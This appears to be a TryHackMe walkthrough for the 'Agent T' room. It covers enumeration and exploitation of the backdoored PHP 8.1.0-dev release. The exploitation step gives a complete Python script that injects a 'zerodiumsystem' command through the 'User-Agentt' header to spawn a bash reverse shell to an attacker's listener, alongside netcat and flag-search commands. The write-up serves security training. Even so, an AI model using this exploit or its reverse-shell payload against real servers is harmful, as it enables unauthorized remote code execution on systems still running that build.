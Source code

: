 # TryHackMe - Agent T Walkthrough

## Overview
**Agent T** is an easy-level room on TryHackMe that demonstrates exploitation of a backdoored development version of PHP (8.1.0-dev). In this walkthrough, I’ll guide you through the enumeration, identification of the vulnerability, and exploitation to gain a shell and capture the flag.

---

## 🧰 Tools Used
- nmap
- curl
- Python3
- Netcat

---

## 🕵️ Step 1: Enumeration
Run an initial nmap scan to identify open services:
```bash
nmap -sC -sV -oN agentt-nmap.txt <target-ip>
```
**Findings:**
- Port 80 open
- HTTP server reveals PHP version: `PHP/8.1.0-dev`

---

## 🔍 Step 2: Investigate HTTP Service
Check the headers to confirm PHP version:
```bash
curl -I http://<target-ip>
```
Look for the `X-Powered-By` header showing `PHP/8.1.0-dev`, which is known to be backdoored.

---

## 💣 Step 3: Exploitation with Reverse Shell
A reverse shell can be triggered by injecting into the `User-Agentt` HTTP header.

### Prepare Netcat Listener:
```bash
nc -nlvp <your-port>
```

### Use Python Script:
```python
#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
    payload = 'bash -c "bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP")
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit

if __name__ == "__main__":
    main()
```

### Run the script:
```bash
python3 revshell_php_8.1.0-dev.py http://<target-ip> <your-ip> <your-port>
```
If successful, you’ll get a reverse shell on your listener.

---

## 🏁 Step 4: Find the Flag
Once inside the shell, search for the flag:
```bash
find / -name "flag.txt" 2>/dev/null
cat /path/to/flag.txt
```

---

## 🧠 Lessons Learned
- Always inspect HTTP headers and versions.
- Development versions (like PHP 8.1.0-dev) are not meant for production.
- Even one misplaced header (`User-Agentt` vs `User-Agent`) can lead to serious vulnerabilities.

---

## ✅ Completion
Room: **Agent T**  
Difficulty: *Easy*  
Focus: *Remote Code Execution via PHP Backdoor*
